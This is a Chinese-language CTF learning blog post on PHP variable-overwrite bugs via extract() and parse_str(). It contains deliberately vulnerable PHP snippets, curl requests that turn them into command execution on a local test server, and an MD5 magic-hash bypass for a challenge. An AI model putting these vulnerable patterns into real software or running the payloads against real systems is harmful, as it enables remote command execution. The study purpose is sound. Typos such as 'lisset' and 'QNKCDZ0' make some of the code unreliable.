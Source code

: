 ```yaml
---
title: 20241207CTF学习笔记5
date: 2024-12-07
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true










---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始视频学习的第4天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第4章：web基础题-03-变量覆盖问题

### 变量覆盖：

#### **定义：**用传参的值替换原有变量的值

#### **举例：**

```php
<?php
$a="abc";
$a="def";
echo($a);
?>
```

变量覆盖常考的三个函数：

1. Extract() 最重要
2. Parse_str()
3. Import_requests_variables()//deprecated(弃用) in php>=5.4.0

### Extract()函数：

![image-20241207211457286](/img/ctfLearn/image-20241207211457286.png)

#### **定义：**

将数组的键做为变量，将数组的值作为变量的值

图中这里就是用Cat覆盖掉了Original，我们Extract()函数的本质是为了开发，只是演变歪了

#### **入侵示例：**

```php
<?php
$arr = $_GET['arr'];
extract($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```shell
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr[d]=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr[d]=system，在给到extract()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### Parse_str()函数：

#### **定义：**

把查询字符串解析到变量中。

#### **方法举例：**

```php
<?php
parse_str("name=Bill&age=60");
echo $name."<br>";
echo $age;
?>
```

```php
<?php
parse_str("name=Bill&age=60",$myArray);
print_r($myArray);
?>
```

#### **入侵示例：**

对php版本有要求，视频中用的是php5

```php
<?php
$arr = $_GET['arr'];
parse_str($arr);
var_dump($d);
@$d($_POST['a']);
?>
```

```
//此时我们发送请求
curl http://127.0.0.1:8088/test.php?arr=d=system
-X POST -d "a=ls"
```

#### **入侵示例解释：**

我们传入的arr=d=system，在给到parse_str()函数以后，生成了一个$d的变量，变量的值是system，此时用var_dump()函数，它应该会显示string 'system' (length=6)等信息，走到下一行，@system执行外部命令，用的是POST方法传入的参数a，a的值可以是linux命令，比如ls、cat等。

### **结论：**

变量覆盖不管是用extract()函数还是parse_str()函数，变量覆盖或者是创建变量本身都没有安全风险，但后续的代码有部分危险操作，所以导致了整个的风险

### 综合题

题目源代码：

```php
<?php
if(!lisset($_GET['id'])){
	show_source(__FILE__);
	die;
}
include_once('flag.php');
$a='TESTCTF';
$id=$_GET['id'];
@parse_str($id);
if($a[0]!='QNKCDZ0' && md5($a[0]) == md5('QNKCDZ0')){
	die($flag);
}else{
	die('emmm');
}
```

我们需要传入以下参数

```java
//首先，我们看看md5('QNKCDZ0')的值，发现是个科学计数法的形式，我们需要让md5($a[0])也是一个科学计数法的形式，就能让他两弱等于
//其次，我们看到@parse_str($id);需要我们理解parse_str的用法，传入一个a=b的形式，同时把a替换为a[0]，把b替换为s878926199a，让它满足a[0]不是QNKCDZ0且md5相等的条件

?id=a[0]=s878926199a
```


